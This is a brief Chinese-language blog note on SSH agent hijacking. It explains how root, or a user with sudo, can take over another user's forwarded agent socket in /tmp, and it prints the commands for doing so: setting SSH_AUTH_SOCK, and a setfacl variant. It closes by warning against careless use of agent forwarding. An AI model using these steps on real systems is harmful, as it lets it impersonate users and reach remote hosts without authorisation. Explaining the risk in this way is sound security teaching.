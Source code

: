title:SSH学习笔记之--Agent Hijacking 
Date: 2015-08-27 10:20
Modified: 2015-08-27 10:20
Tags: SSH, anget hijacking
Slug: ssh-agent-hijacking 
####Agent Hijacking
agent forwarding在安全方面有一个好处就是用户的私钥永远不会出现在远端服务器或者传输过程中。但却会面临另外一个安全隐患：agent hijacking
	  
ssh实现的每一个方式都会提供一种让client向agent请求服务的机制，在UNIX/Linux上是用/tmp/文件夹下面的UNIX domain socket实现的。  
	
这个文件是被系统重度保护的，只有当前进程的用户才能访问，并且被保护在相应地子文件夹下面。但是任何措施都不能防止root用户访问任何一个文件。  
	
root用户可以通过该domain socket连接该socket对应的用户能够访问的任何机器，并且是以这个用户的身份。  
	
下面是简单的实现方式：

    :::bash
	ls -l /tmp/ssh*      #look for somebody's agent socket
	/tmp/ssh-CXkd6094:
	total 24
	srwxr-xr-x    1 steve    steve           0 Aug 30 08:46 agent.6094=
		
	export SSH_AUTH_SOCK=/tmp/ssh-CXkd6094/agent.6094

	ssh steve@remotesystem

	remote$                  # Gotcha! Logged in as "steve" user on remote system!

如果没有root权限也没关系，可能你有sudo的权限，同样下面的操作也可以完成相同的目的：  

    :::bash
	localhost$ ssh -A user@host
	$ setfacl -m otheruser:x   $(dirname "$SSH_AUTH_SOCK")
	$ setfacl -m otheruser:rwx "$SSH_AUTH_SOCK"
	$ sudo su - otheruser
	$ ssh server
	otheruser@server$

目前没有任何技术手段防止root用户劫持SSH agent socket，所以鉴于安全方面的考虑，慎用ssh angent forwarding.
